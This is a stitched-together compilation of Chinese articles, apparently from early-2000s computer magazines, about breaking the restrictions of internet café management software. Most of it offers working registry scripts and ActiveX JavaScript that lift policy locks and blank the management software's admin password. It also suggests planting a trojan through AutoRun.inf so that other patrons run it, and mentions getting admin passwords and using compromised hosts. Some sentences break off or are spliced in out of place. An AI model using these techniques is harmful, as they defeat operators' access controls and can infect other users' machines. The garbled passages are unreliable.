  Sh1.RegWrite("HKEY_LOCAL_MACHINE\\Software\\万象幻境\\专家系列网管软件\\运行设置程序密码", "");
}

function init(){
  setTimeout("f()", 1000);
}

init();
</script>
```

这段代码可以将万象幻境专家系列网管软件的密码设为空，然后就可以摆脱它的限制了；到 DOS 下也就易如反掌了。

简单说明一下：先说说 `document.write("<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>");`，因为这是微软的 ActiveX 所以不会有提示；`a1.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}");`，其中的 `{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}` 是什么？在注册表中搜索一下……

就知道这是 wshshell。而 Shl.RegWrite 是用来写注册键值的，RegRead 是读键值，RegDelete 则是删除键值。细心的你可能会发现有个 HKLM 主键，HKLM 即 HKEY_LOCAL_MACHINE。同样地，在 WSH 中，HKCU 就是 HKEY_CURRENT_USER，HKCR 表示 HKEY_CLASSES_ROOT。

关于突破限制我们就说这么多，其他诸如如何得到网吧管理软件的密码或避开网吧收费软件的限制免费上网就不说了，实在是太危险，而且也没有必要。有些网页也提供网吧解限功能，如 http://go98062.top263.net/index.html，在网页的右下角有一个“系统解除”，点击即可。

### 十、解决办法

在提到的漏洞中，很多是无法依靠网管软件本身来解决的，因为这些软件本身都存在一定的漏洞。网管类软件的原理其实很简单，不过是个外壳（Shell）程序而已，它先于其他一切程序加载，提供一个受密码保护的界面，一般用户只能通过这个界面调用一些被允许的程序。此类软件的这种特殊地位也使它不可避免地会存在一定的漏洞，特别是和操作系统结合不紧密时更会产生各种漏洞，这也是网吧管理软件有各种漏洞出现的原因之一。更何况有些被利用的漏洞是由于操作系统本身造成的，所以很难解决。有没有比较好的解决方案呢？下面是笔者的一点建议。

首先，应该明确网管类软件的根本目的，这是问题的根本所在。在我看来，网管类软件的根本目的就是简化机房的日常管理。而机房的日常管理主要就是保证单一的每台机器正常运行和整个网络的稳定，再有就是上机收费。也就是说，主要是方便管理者而不是使用者。出于这个目的，网管类软件要能够做到：一、限制一般用户的某些操作，主要包括对重点文件的访问及更改系统设置；二、上机管理及记费；可能还包括第三个作用，监控用户的操作，之所以说是“可能还包括”，主要是因为这牵扯到隐私的问题，太过敏感，咱们不讨论这个功能。而管理者和使用者可谓是一对矛盾，强化了一方必然损害另一方。

这样一来，上网者们应该理解网吧管理者，反过来讲，网吧管理者也应该理解为什么使用者对网管类软件“深恶痛绝”：不是所有的预设置都能让所有的使用者满意——尤其是在这样一个强调个性化的时代；而出于安全性的考虑，限制对硬盘的访问也会对某些正常的使用带来不便。举个例子，在网吧上网后想删掉自己的聊天记录就没法办到，而谁都知道，这些聊天记录会有多少软件和方法可以看到！况且，不可否认，还有一部分人由于没有条件在他处上网才到网吧来，对这部分人来说，他们是抱着学习练手的目的来网吧的，而网吧管理软件的限制使其无法按书中所学来加以印证，这又怎能不招之痛恨？！当然，我们也不否认有些人是存心捣乱，但毕竟只占少数，不能因此而牵连众多的无辜者（网吧的做法有株连之嫌）。

以上只是希望大家能互相体谅，互退一步，至少能明白对方的初衷，这样，遇到事情也会多一份理解，少一份仇恨。

下面再说说技术方面的解决办法。

目前，较新的网吧管理软件已经可以支持 Windows 2000 等操作系统了，如果能将操作系统的权限设置和网管软件相结合，则漏洞会减少许多。网吧管理者可以利用 Windows 2000 中的权限设置，给上网者一定的权限，使之可以对用户目录进行操作，比如可以给上网者一个公共目录，上网者可以在这里删除、保存文件，也可在这个目录安装程序。同时，将上网者常用的软件安装到一个目录，它们对这个目录只有访问、执行其中程序的权限，而不能删改。同时，禁止它们访问系统目录。这样，我们就避开了网管软件中一些无法解决的硬盘访问漏洞；给上网者一定自由的同时，同时也保证了系统的安全。

然后再利用网管软件来过滤不良网站信息，自动清理各种恶意网站、黄色网站在系统中留下的地址链接，修复 IE 以及 Windows 系统的各种设置。此外，还需要设置自动记费、清理历史记录、临时文件、控制输入法漏洞等功能。这些设置在网管软件中都能很容易找到，在此就不详述了。

这样，我们既解决了网管软件的漏洞，同时也能给上网者一个较好的上网环境，网吧管理者们不妨考虑。

由于水平所限，再加上各地网吧软硬件环境不同，所以，本文中提到的方法不敢保证放之四海而皆准，请大家注意。另外，本文旨在技术交流，如果有人利用文中提到的方法搞破坏，则后果自负。

## 网吧禁止下载文件
### 终极突围6大法

文／小宋


经常去网吧的朋友，一定遇到过这种事情：无法下载文件，在IE中点击“下载”就会显示“安全警告设置”。怎样才能解除它呢？其实这无非是IE的安全设置在作祟，这个问题虽然看似不起眼，但解决起来还真的很麻烦。今天我们就谈谈如何突破这个防线。

### 一、禁止下载文件是怎样做到的

事实上，在IE中禁止下载文件并不是某些网吧管理软件的特权，IE本身的安全区域就允许你做这个操作。以下是具体防范：

- 1. 方法1：运行IE，点击“工具”→“Internet选项”→“安全”→“Internet区域”→“自定义级别”→“文件下载”，然后选择“禁止”即可（图1）。
- 2. 方法2：在“开始”菜单的“运行”中输入regedit，打开注册表编辑器，找到 `HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3`，将其下Dword值“1803”改为“3”也可实现禁止下载文件的目的。


图1

当然，管理严格的网吧不仅仅只是用这二招禁止人们下载文件，在下面我们还会提到其他手段及破解方法。

### 二、突破禁止下载文件的6种方法

从上面所说的可以看出，只要能突破上面两种限制手段即可突破限制，实现网吧中下载文件的目的。但怎样突破上面所提到的限制呢？

- 1. 利用IE“属性”设置

某些管理不严，安全设置过于简单的网吧，可以利用IE属性设置轻松破解禁止文件下载。具体方法为：运行IE，点击“工具”菜单下的“Internet选项”，会弹出“Internet选项”对话框；选择其中的“安全”标签，再点击“自定义级别”按钮，此时会弹出“安全设置”对话框，找到“下载”，将“文件下载”和“字体下载”勾选上，之后按“确定”按钮即可。

如果你用鼠标右击IE图标没有反应，说明IE属性已经被禁止，这是由于在注册表中做了如下手脚：

> `HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Internet Explorer\Restrictions` 下的 Dword 值 `NoBrowserOptions` 为 1（为0则不禁止）。此时我们就可以用“查找”功能。

- 2. 利用“查找”功能

当打不开“IE属性”时，可以用“Win+F”键调出“查找”对话框，然后输入 `Inetcpl.cpl`，在Windows中查找Inetcpl.cpl文件（Inetcpl.cpl就是IE中“Internet选项”所对应的文件，该文件在 `C:\Windows\system` 下，假设你的Windows安装在 `C:\Windows` 下）。找到Inetcpl.cpl文件后，不要用鼠标左键双击或单击，应该用鼠标右键点击该文件，在弹出菜单中选择“使用控制面板打开”，这样就会打开“Internet选项”对话框，之后按照方法1继续设置即可。

1中所说的去做就可以了。

本方法虽好，但许多网吧都将“查找”功能屏蔽了，他们是这样做的：在注册表 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 处使 Dword 值 “NoFind” 的键值为 “1”，即可屏蔽“查找”功能。

为此我们可以利用“运行”菜单。

- 3. 利用“运行”菜单

如果“查找”功能被屏蔽，可同时按住键盘上的 Win+R 键，调出“运行”对话框，然后输入 `regedit`，进入注册表编辑器：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3`，将右窗口中“1803”的键值设置为“0”即可。

如果你能够进入 MS-DOS 方式，可以在命令行后输入 `control.exe inetcpl.cpl`，回车就会打开“Internet 选项”对话框，之后按方法1中所说的如法炮制即可。这里的 `control.exe` 即为控制面板文件。

不过，许多网吧将“运行”也给屏蔽了，他们是这样做的：在注册表如下位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 使 Dword 值 “NoRun” 的键值为 “1”，即可屏蔽“运行”功能。这时我们可以采用下面的方法。

- 4. 使用 REG 文件

随便打开一个网页，选择查看“源代码”，会打开“记事本”程序，将其中的内容全部删除，输入以下内容：

```
reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3]
"1803"=dword:00000000
```

然后选择“保存类型”为“所有文件”，另存为以 `.REG` 为扩展名的文件，双击该文件导入注册表即可。

友情提示：`RGEDIT4` 必须大写且顶格，在它下面一定要空一行。在最后一行输入完毕后记得要按一次回车，再保存文件。如果你的操作系统是 Windows95/98/Me/NT 等，REG 文件开头第一行规定必须是 “REGEDIT4”；如果是 Windows 2000/XP 则以 “Windows Registry Editor Version 5.00” 开头。

道高一尺，魔高一丈。网吧管理人员为防止有人导入注册表文件，会采用禁止使用注册表编辑器这招：在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 分支下，新建 DWORD 值 “Disableregistrytools”，并设键值为 “1”。这样，我们就无法使用注册表编辑器了，如果你试图打开注册表编辑器，会出现如图2所示窗口。


图2

对此我们可以采用如下办法来应对：新建一个文本文档，在其中输入以下内容：

```
reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

编辑好了以后，注意一定要以 `.reg` 为扩展名，如 “unlock.reg” 并保存。文件准备完毕，双击该文件，会弹出如图3所示对话框。点击“确定”，会显示成功的信息（图4），这样就可以使用注册表编辑器了。


图3


图4

更多的时候，网吧管理人员会在禁用注册表编辑器的基础上，采用删除 `.REG` 文件与 `regedit.exe` 的文件关联，或更改 REG 文件的打开方式（在 `HKEY_LOCAL_MACHINE\Software\CLASSES\.reg` 右边的窗口中更改“默认”值为 “txtfile”，这样当我们导入 `.REG` 文件时会发现打开记事本了），目的是使 `.REG` 文件不能用系统默认的方式打开，使你无法将 `.REG` 文件导入注册表中。

对此，我们只要用鼠标右键点击事先编辑好的果这里出错的话，你不会得到任何提示；

经常在网吧冲浪的朋友，大概都碰到过网吧禁止下载的郁闷事……随着网吧软件的升级，破解软件拿到管理员密码已非易事，怎么办？本文教你几招！

## 突破禁止下载的
### 另类招


文／朱平

大多数朋友应该都有在网吧上网的经历吧，那你碰到过让你禁止下载文件吗？相信大部分人遇到过，特别是对于我们这些软件发烧友。一般，大家的方法是先拿到网吧“*专家”的密码（到现在你还拿不到管理员密码的话，你就不要混了），退出管理软件，工具—>Internet选项—>安全—>默认级别—>确定。现在你就可以尽情地Down了。有人会问，可我真的是拿不到网吧“*专家”的密码呀，那是不是就没辙了？来，再教你几招！

### 1．修改注册表

注册表文件应该知道吧，C:\WINDOWS下的regedit.exe，双击它（你也可以：开始—>运行—>regedit），会弹出注册表编译器。找到：

HKEY_USERS\\.DEFAULT\\Software\\Microsoft\\Windows\\CurrentVersion\\InternetSettings\\Zones\\3\\1803

是不是键值为0，如果是，改成3。重新打开IE浏览器，找到你要下载的东西，是不是发现可以下载了？

### 2．FTP 下载

到现在你应该也有肉鸡了吧，那好，把它配置成FTP服务器，把你要用的软件都放上。运行—>FTP—>open ip，接着输入用户名和密码，进目录，把你想要下载的get下来就可以了。也许，还是有人会说：“可我没有肉鸡呀。” 没事，网上不是有很多免费个人主页空间吗？申请一个就是啦，我就是用虎翼的，以下是我举例的步骤：

```
ftp> open haideguisu.51.net
Connected to haideguisu.51.net.
220 u101.51.net FTP server ready.
User (haideguisu.51.net:(none)): haideguisu  /*输入用户名*/
331 Password required for haideguisu.
Password:  /*当然是你的密码*/
230 User haideguisu logged in.
ftp> cd public_html/*进入目录*/
250 CWD command successful.
ftp> dir/*列出文件*/
-rw-------1 haideguisu huser 21048 Jun 22 20:24 secipd-
...
-rw-------1 haideguisu huser 273213 May 11 2002 winshell.zip
-rw-------1 haideguisu huser 6976 May 15 2002 winshell1.exe
-rw-------1 haideguisu huser 29406 Jun 9 20:16 winzapper.zip
-rw-------1 haideguisu huser 6452 Jun 22 20:24 wipe
-rw-------1 haideguisu huser 4169 Jun 22 20:24 wipe.c
-rw-------1 haideguisu huser 7431 Jul 23 04:03 wx01.zip  /*这才是我们要下载的*/
-rw-------1 haideguisu huser 10716 Sep 19 11:34 xfsmd-
226 Transfer complete.
ftp: 4695 bytes received in 0.49Seconds 9.58Kbytes/
```

```
ftp>bin  /* 二进制传输 */
ftp> get wx01.zip  /* get 要下载的文件 */
200 PORT command successful.
150 Opening BINARY mode data connection for
wx01.zip (7431 bytes).
226 Transfer complete. /* 下载好了 */
ftp: 7431 bytes received in 0.17Seconds 43.71Kbytes/sec.
ftp>bye  /* 退出 */
```


现在你就会在桌面看到你要的东西。什么？桌面被屏蔽了。没事，IE 有个 Bug，当你在地址栏上输入：桌面，呵，就会显示 window 桌面的程序（图1）。


呵呵，怎么样，IE 把 http://9836.com/shell.c 当成 img 文件了。现在我们要做的就是把 text.htm 存为另一个 *.htm 文件，如 test1.htm。另存的同时，IE 会把文件当成图片下载下来，效果是不是达到了？如图4所示：

### 3．文本下载（没听说吧，我还没失败过，现在拿出来与大家共享）

相信这绝对是最好的选择，首先让我们来熟悉一下 html 语言，“``”这表示下载 text.jpg 图片。其实并未下载，只是显示在你的 IE 上。此时，右键点击图片，弹出菜单，选择图片另存为桌面，操作完毕后你会发现 text.jpg 已经在桌面了。大家还要清楚的是禁止下载，但并没有禁止图片的显示，禁止的话那网页上的图片就都看不到了。正是利用这点，我们就能实现 *.zip，*.exe，*.c 等文件的下载。不明白的话，我再把步骤操作一遍吧。

新建一文本文档，输入如下代码 ``，双引号中输入你要下载文件的 url。点击文件 -> 另存为 *.htm(html) 文件。如图2所示：

此时，在桌面生成 test.htm 文件，如图3所示：


我的思路也基本完成了，如果你还搞不定的话，还是找个朋友利用 QQ 传输文件给你吧，如果你连肯帮这忙的朋友都没有的话，那就来找我吧，QQ：14147470（网速问题，仅限福建地区）。

## 使用权限的巧妙拓展

如果网吧的计算机安装了某种系统管理软件，一定会给你的上网带来诸多不便之处。本文以作者长时间在网吧上网总结的一些小经验，与大家共享。


文／知道你隐身

### 1. IE访问

打开IE浏览器，点击文件菜单→打开，弹出打开窗口，点击“浏览”按钮，如图4所示。


又弹出一个窗口，在“文件类型”下拉菜单中选择“所有文件”，并在文件名栏输入`g:\`然后回车，便打开了G区，如图5所示。


现在的位置是G区根目录下。如果你要打开G区的某个文件，如`g:\game\hearts\hearts.exe`，则在文件名栏输入它所属的子文件夹名`game\hearts\`，回车，然后右击那个文件，单击打开即可，如图6所示。


在该窗口可以看到网吧的各个分区，有助于以后你的访问。这个网吧没有软驱，可供客户访问使用的硬盘分区为A区。该网吧还有C，F，G，H等分区，绝大多数软件和游戏都在G区。

当你打开“我的电脑”或“资源管理器”，可以发现仅有一个A区可以访问，而其他存有重要数据的分区都被屏蔽了，如图2所示。


你在地址栏输入`c:\`、`f:\`、`g:\`、`h:\`等，也会得到该区不能访问的提示，如图3所示。

如果你只是上网聊天和浏览网页，那么这些访问限制对你基本没什么影响。如果你要游戏、下载、制作更新网页等，就会感到倍受束缚。因为现在你要保存的东西只能存在可以访问的分区，而这些分区经常会被客人清空。携带软盘？容量太小，不方便，更何况大多数网吧不提供软驱，所以你只有充分利用网吧的资源了。不能以直接的方式访问，我们可以用以下几种间接的方式。

以我常光顾的网吧为例，解释一系列的另类间接访问。先来看看该网吧硬盘的各个分区。右击“我的电脑”，单击“映射网络驱动器”，弹出窗口，如图1所示。

注意：如果单击窗口右下方的那个“打开”按钮，如图7所示，然后点击“确定”，则会得到不允许访问该资源的提示。如图8所示。因此，用以上方式打开文件时，要用右键菜单。


### 2. “上传”访问

在主页空间、相册、论坛灌水、邮件附件项都有上传按钮。以发邮件附件为例，点击附件→浏览，弹出选择文件窗口，如图9所示。


接下来的访问手段和IE访问相同。

### 3. 右键菜单“另存为”命令访问


右键单击任意一个链接→另存为，你将看到图10，相信你知道接下来该怎么做。

### 4. 画图板访问

打开程序菜单附件中的画板。单击文件菜单→打开。画板访问方式和IE访问基本一样。

### 5. Winamp访问

点击“+曲”按钮，然后选择所有文件即可，如图11所示。

由上可以看出关键是弹出“窗口”，所以还有许多相似方式可以间接访问通常不能直接访问的分区，大家可以自己摸索。上述这些访问方式，也应该够用了。


如果你经常在网吧游戏、更新主页等，就会经常用到战网注册表、外挂、游戏辅助工具、主页备份和网页特效工具等。一般你会下载到供你使用的A区。但该区经常被清空，每次都重新下载岂不是麻烦？网吧服务器空间很大，不利用太浪费了。我们就把自己常用的宝贝东东存到网吧不会被清空的分区上吧，如G区。有两种方法，A是直接Down到目标区G区；B是先Down到A区，再复制到目标区。

- 1. 以 Netants 下载为例，右击链接，接着单击 Download by netants，然后在“另存为”栏填上你要保存的路径即可。当你要访问执行它们时，按照图5中间接方式中的任一种都可以，当然IE访问方式是最方便的了。
- 2. 先下载到A区，然后复制它，再粘贴到目标区。具体方法是：复制该文件或文件夹，通过IE或其他方式打开该区，再打开你要保存的文件夹，如g:\qq2003\的某个号码文件夹下，如图12，够隐蔽吧？接着 Ctrl+V 或右键粘贴就OK了。


为了便于记忆和查找，你也可以在G区自建一个文件夹，起个便于自己记忆的名字，然后存到该文件夹下。如果还不放心，可以给你的文件夹加上隐藏属性，以后在文件名栏输入该文件夹的路径，回车就能看到里面的东西了。你不但穿透了网吧的限制，还利用了它的限制以保护你的文件，方便又安全。

注意：如果是很重要的文件，还是要备份到邮箱里一份。不然，网吧服务器拿去更新时，它们一般就保不住了。

隐藏你的秘密：如果你下载了一些很隐私的文件，如和MM的合照，或在本地有你编辑的私人文档，如情书之类的，当然不愿被别人浏览了。当你想删除它们时，发现删除功能被屏蔽了。不要紧，你可以把它剪切粘贴到很深很深的子文件夹下，再加上隐藏属性。最简单的方法是：随便改一下文件名的后缀，如mm.jpg→123.zip 或 abc.rm 或 mm.txt，然后双击试试看。啊啊，谁能看得出呢。

## 网吧十二种常见限制的解决办法


文/song

网吧中经常有各种限制，如不能下载文件、隐藏硬盘等。笔者经常在网吧上网，总结了一些经验，针对网吧中最常见的12种限制，为您提供相应的解决办法，使用这些方法以后，可以让你拥有更多的权限，在网吧上网更自由！

注意，文章中所有关于 reg 文件的要求都是如此，为节省篇幅不再赘述。

### 一、解除12种常见限制的方法

- 1. 恢复桌面
首先，要知道在网吧中是无法直接看到大家熟悉的“桌面”，你的一切操作都是在网吧管理软件限制下进行的，以美萍为例，在它控制下的桌面实际上是美萍指定的一个目录，而原来的桌面则被隐藏了。虽然如此，但是“他有张良计，我有过墙梯”，我们可以在浏览器地址栏中输入“桌面”这两个汉字，或者输入 file:///c:/windows/system/显示桌面.scf，这样就可以看到原桌面。

- 2. 让隐藏的硬盘现身
网吧中会把硬盘隐藏起来，防止我们随意进入硬盘，所以要想拓展自己的权限，就得解决这个问题。编辑如下内容的代码即可：

```reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"NoDrives"=dword:ffffffff
"NoDriveTypeAutoRun"=hex:95,00,00,00
```

保存为 reg 文件，运行即可。要注意的是，该文件的第一行：REGEDIT4 必须大写且顶格，在它下面一定要空上一行。在最后一行输入完毕记得要按两次回车，即保证最后还要空上一行，再保存文件。

运行这个 reg 文件后，不仅可以使隐藏的硬盘显示出来（DWORD 值 NoDrives 决定是否把硬盘隐藏起来），还可以恢复磁盘的自动运行功能（二进制值 NoDriveTypeAutoRun 决定了是否启用磁盘自动运行功能）。这样，如果你想单击硬盘图标就自动运行某个程序就可以实现了。如果这个程序是木马，则可以实现自动运行木马程序功能！编写如下内容的 AutoRun.inf 文件即可：

```ini
[AutoRun]
Open=muma.exe
```

把 muma.exe 文件放在 Windows 所在文件夹，然后把编写完毕的 AutoRun.inf 文件放在磁盘根目录下即可。这样只要有人点击该盘图标，就会自动运行 muma.exe 文件！

- 3. 恢复 reg 文件关联
有的网吧会修改 reg 文件关联，就是到注册表 HKEY_LOCAL_MACHINE\Software\CLASSES\.reg 下，在右边的窗口中更改“默认”值为“txtfile”，这样当我们导入 .reg 文件时会发现打开的不是想像中的注册表编辑器，而是记事本程序！这样我们前面所做的可能就是无用功了，解决办法其实也很简单，只要编写如下内容的文件就可以。

```reg
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\CLASSES\.reg]
@="regfile"
```

你可能会奇怪，不是无法导入 .reg 文件吗？怎么又编辑了一个 reg 脚本呢？要注意，我并没有说保存为 .reg 文件呀。我们可以将该文件保存为 reg.abc，保存为一个系统中不存在的扩展名 .abc 之后，用鼠标右键单击该文件，在弹出的右键菜单中选择“打开方式”，在打开的“打开方式”窗口中选择“regedit” 打开（图1），点击“确定”按钮，出现了一个提示窗口显示：确定要增加 D:\REG.ABC 内的信息添加到注册表吗？（图2），按“是”，“REG.ABC”的内容就导入注册表了。这样我们就巧妙地恢复了 reg 文件的关联。


- 4. 给注册表编辑器解锁
网吧中是一定会锁定注册表编辑器的，因为害怕大家修改注册表。但是，注册表是 Windows 的核心，如果无法使用注册表编辑器那将有很多权限被限制住，所以要给注册表编辑器解锁。编写如下内容的代码：

```reg
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

保存为 reg 文件，运行后就可以使注册表编辑器恢复自由。其实，我们还可以换个方法来解决这个问题，那就是给注册表编辑器 Regedit.exe 文件改名！大家知道，把 .EXE 文件的扩展名改为 .COM、.BAT、.PIF、.BMP 或 .SCR 之后，并不影响这个 EXE 文件的运行。基于这种原理，我们可以把注册表编辑器 Regedit.exe 改名为 Regedit.com、Regedit.bat、Regedit.pif、Regedit.bmp 或 Regedit.scr 中的任一个都可以，只要网吧中没有禁用上述文件扩展名中的任意一个，运行改名后的文件都可以打开注册表编辑器！

- 5. 巧妙使用控制面板
在“控制面板”中可以对系统进行各种设置，作为网吧的客人我们当然很喜欢它，但是网吧管理者却很讨厌它，因为“控制面板”对网吧来说，实在是太危险了，所以网吧中会禁用“控制面板”。要想使用控制面板，只要在浏览器地址栏中输入：file:///::{7B20D04FE0-3AEA-1069-A2D8-08002B30309D}%7D%5C::{7B21EC2020-3AEA-1069-A2DD-08002B30309D%7D"，就可以了。其实，“控制面板”就是 Windows 安装目录下的 control.exe 文件，找到该文件运行就可以了。另外，控制面板中的各个选项对应的是 Windows 安装目录下的 system 子目录中的 *.cpl 文件。

- 6. 在桌面上显示“网上邻居”图标
要想查看同一网吧中的其他用户，可以使用“网上邻居”；遗憾的是“网上邻居”也被网吧给封杀了！也就是说你在桌面上休想看到“网上邻居”的图标。怎么才能让它出现呢？编写如下内容的 reg 文件即可：

```reg
REGEDIT4

[HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"NoNetHood"=dword:00000000
```

就是 DWORD 值 NoNetHood 决定了是否显示“网上邻居”。运行你自己编写的 reg 文件看看，没有问题了吧？

- 7. 让“运行”恢复自由
在“开始”菜单中的“运行”真是个不错的选项，利用它我们可以运行各种程序，非常的方便。比方说，输入 regedit 就可以打开注册表编辑器，输入 winword 就可以打开 WORD。可惜，在网吧中你是无法享受到这份快捷与方便的，因为网吧中会将这个对它们来说致命的菜单项给禁用。

有对策，让我们恢复“运行”菜单的自由！编写如下内容的 reg 文件即可：

```reg
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"NoRun"=dword:00000000
```

注意，在运行该文件后请注销当前用户，或重新启动电脑。

- 8. 让“Internet 选项”可用
IE 的“工具”菜单中的“Internet 选项”可以说是 IE 的核心，在这里面可以进行各种关于 IE 的设置，而 IE 又是大家上网常用的工具，网吧中一定会将“Internet 选项”给禁用，这样，当你点击“工具”菜单后看到的“Internet 选项”将出现一个对话框，提示你该选项不可用（图3）！只要编辑如下内容的 reg 脚本，就可以使该菜单项恢复本色，重新亮起来！


```reg
REGEDIT4

[HKEY_USERS\.DEFAULT\Software\Policies\Microsoft\Internet Explorer\Restrictions]
"NoBrowserOptions"=dword:00000000
```

运行这个 reg 文件就可以使用“Internet 选项”了。

- 9. 在 IE 中恢复“源文件”选项
最初网页恶意代码出现时，大家都惊诧于它的威力，今天的我们当然已经见怪不怪了。所以，如果网吧中的 IE 浏览器其“查看”菜单中的“源文件”选项不可用，并没有引起大家的太多关注。因为和恶意网页一样，它的主要原理还是修改注册表。但是该选项被禁用实在是很烦人，它使得我们无法查看网页源代码，非常的不方便，所以我们要“干掉”它！解决办法是编写如下内容的 reg 文件即可：

```reg
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Internet Explorer\Restrictions]
"NoViewSource"=dword:00000000
```

注意，请关闭所有浏览器，之后再运行该 reg 文件。再打开 IE 看看，“源文件”选项可以使用了！

- 10. 恢复下载文件功能
网吧中为防止大家胡乱下载软件，会禁止下载文件。所以这也是我们要突破的防线之一，编写一个如下内容的 reg 文件即可解除锁定：

```reg
REGEDIT4

[HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3]
"1803"=dword:00000000
```

编辑完后保存文件，运行这个 reg 文件就可以恢复下载功能！在上述注册表文件中，DWORD 值“1803”的键值为 3 表示禁止下载文件，为 0 则允许下载。

- 11. 让“文件夹选项”可以使用
不知大家注意过“开始”菜单中“设置”级联菜单中的“文件夹选项”没有？该选项其实就是“资源管理器”中“查看”菜单下的“文件夹选项”（Win2000/XP 中为“工具”→“文件夹选项”），它有什么用呢？顾名思义，主要是对文件和文件夹的一些设置，最主要的功能是可以设置要显示或隐藏的文件类型，以及对已注册文件类型的管理，如打开方式、删除或新建一个文件类型等。既然它这么重要，网吧是一定会禁止使用该功能的！怎么办？当然是让“文件夹选项”可以使用。编写如下代码：

```reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"NoSetFolders"=dword:00000000
```

保存为.reg文件，运行即可。试试看，完全没有问题，“文件夹选项”可以使用了！

- 12. 让DOS方式可用
网吧中禁止DOS方式是通过修改注册表来完成的。其实就是在注册表：
HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Policies\WinOldApp下，新建DWORD值“Disabled”，把键值设为1，则“MS-DOS方式”被禁止；如果再新建DWORD值“NoRealMode”，把键值设为1，则DOS实模式被禁止。如果你想进入DOS中，就会弹出一个如图所示的对话框（图4），提示无法进入DOS。明白了原理，就可以用上面提到过的Reg文件来解除对DOS的锁定，编写如下代码：


```reg
REGEDIT4

[HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Policies\WinOldApp]
"Disabled"=dword:00000000
"NoRealMode"=dword:00000000
```

运行这个.reg文件就可以让DOS方式可以使用。

## 二、制作一个可以解除限制的通用“模板”

大家已经看出来了：文中所用的方法主要是使用Reg脚本，虽然在文章中我已经告诉过大家如何突破Reg文件被禁用的方法，但是多一手准备总是好一些，所以在文章的最后再告诉大家一个利用HTML文件来解决这类问题的通用方法。针对以上限制的具体内容就不再逐一写上了，以给注册表编辑器解锁为例，在此给大家提供一个“模板”，只要套用该“模板”，就可以解决上述问题！

具体方法是：用IE打开一个网页，然后查看里面的源代码，接下来把里面的内容全部删除，输入下面这些内容，然后点击“文件”菜单中的“保存”，保存该文件，接下来按F5键刷新即可。内容如下：

```html
<html>
<body>
<script language="JavaScript">
var shl=new ActiveXObject("Wscript.shell");
shl.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\Disableregistrytools",0,"REG_DWORD");
alert("已经成功解除限制！");
</script>
</body>
</html>
```

按F5键刷新之后，会弹出一个对话框，上面写着：“该网页上的某些软件（ActiveX控件）可能不安全。建议您不要运行。是否允许运行？”（图5），这是由于网吧中的安全设置都比较高，所以


IE会弹出这个对话框。由于是我们自己写的代码，自然清楚不会有什么危险，所以可以放心大胆地点“是”，这时会弹出另一个对话框，上面写着：已经成功解除限制！如图所示（图6）。运行注册表编辑器试试，已经解锁成功了！


本文中关于修改注册表来解决问题的地方都可以使用这个方法，只要将第五行“shl.RegWrite”括号内的内容改为你要修改的注册表项就可以了。要注意，在里面一定要用双斜杠“\\”，而且后面这三行后面的分号“;”不可缺少。好了，现在你在网吧中上网就可以非常自由了，尽情体验互联网给我们带来的快乐吧！

## 网吧管理软件
## 安全漏洞攻防


文／toni

相信现在的大部分网吧经营者、维护者们都用过或曾经用过网吧管理软件。用这类软件，可以为管理者们省下了很多工作。由于这类软件自身的特性，在用户使用电脑的过程中，它们自始至终扮演着维护安全的角色。但随之而来的问题就是这类软件自身的安全问题，假若这类软件被别人攻克，甚至受控于人，那么造成的损失可能是巨大的。下面就来谈谈这类软件的安全问题。

程序还未启用。点击“取消”，继续按 Del 键（之间不要松 Ctrl+Alt 键），如果没有“smenu”这个程序，点击“取消”后，重复上面操作；如果发现 smenu 后，立即将它关闭；如果发现“未知”程序时，也要关闭掉。此时我们不要掉以轻心，因为 smenu 这个程序会启动两次，然后重复上述操作，直到将 smenu 关闭为止。同“美萍”一样，“万象幻境”也要关闭两次。

### 一、网吧管理软件自身安全的漏洞

- **1. Ctrl+Alt+Del**

  大家都知道，Ctrl+Alt+Del 可以用来查看当前 Windows 下正在运行的程序，常作为关闭某程序的最有效的手段，所以网吧管理软件首先要对此做好防卫。在这里，“美萍”和“万象幻境”的手段有点不同，“美萍”是始终将 Ctrl+Alt+Del 屏蔽了的，“万象幻境”中可以用 Ctrl+Alt+Del，但找不到其自身运行的程序。在“美萍”早期的版本中，用 Ctrl+Alt+Del 不失为让“美萍”下课的好方法。但时至今日，这种古老的方法仍然左右着“美萍”。在开机后，出现 Windows 蓝天白云的时候，你就要做好准备，将 Ctrl+Alt 键按住，同时准备好按 Del 键。在蓝天白云闪过后，出现空白背景图时，立即按 Del 键。这时弹出的“关闭程序”对话框，里面还没有程序或“explore”程序，那么，恭喜，你把握好了机会，因为此时美萍的虚拟程序还未启用。

- **2. 用 Windows 开始菜单**

